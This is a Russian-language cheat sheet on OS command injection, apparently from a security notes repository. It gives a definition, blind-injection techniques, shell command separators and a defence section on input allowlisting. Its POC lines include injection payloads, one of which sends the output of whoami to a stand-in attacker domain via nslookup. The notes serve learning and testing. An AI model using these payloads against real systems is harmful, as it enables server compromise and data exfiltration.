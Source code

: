 ### **Command_Injection**

* **Описание**
*	Внедрение команд ОС также известно как внедрение оболочки. Оно позволяет злоумышленнику выполнять команды операционной системы (ОС) на сервере, на котором запущено приложение, и, как правило, полностью скомпрометировать приложение и его данные.

* **Виды**
*	Уязвимости слепого внедрения команд ОС
		Обнаружение слепого внедрения команд ОС с использованием задержек по времени (ping -c 10 127.0.0.1)
		Использование слепого внедрения команд ОС путем перенаправления вывода (& whoami > /var/www/static/whoami.txt &)
		Использование слепого внедрения команд ОС с использованием методов внеполосного доступа (OAST) (& nslookup kgji2ohoyw.web-attacker.com &)

* **Точки входа**
К подобным уязвимостям относятся:

    Уязвимости небезопасной десериализации
    Уязвимости внедрения шаблонов на стороне сервера SSTI
    Уязвимости SQL инъекции
    Уязвимости переполнения буфера / кучи / стека
    Множественные случаи проблем и ошибок реализации, возникающих при работе с запуском процессов и работе с терминальной оболочкой


* **POC**
*	разделителей команд в системах Windows и Unix:
	&
	&&
	|
	||
*	только в Unix:
	;
	Новая строка (0x0a или \n)
*	выполнения внедренной команды внутри исходной команды:
	`введенная команда`
	$(введенная команда )
Иногда входные данные, которыми вы управляете, появляются в кавычках в исходной команде. В этой ситуации вам необходимо завершить цитируемый контекст (используя " или ') перед использованием подходящих метасимволов оболочки для внедрения новой команды.
*	& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
*	& whoami > /var/www/static/whoami.txt &
*	ping -c 10 127.0.0.1

* **Защита**
Если вам нужно вызывать команды ОС с пользовательским вводом, то вы должны выполнить строгую проверку ввода. Вот несколько примеров эффективной проверки:

Проверка по белому списку разрешенных значений.
Проверка того, что ввод является числом.
Проверка того, что ввод содержит только буквенно-цифровые символы, без другого синтаксиса или пробелов.
Никогда не пытайтесь очистить ввод, экранируя метасимволы оболочки. На практике это слишком подвержено ошибкам и уязвимо для обхода опытным злоумышленником.

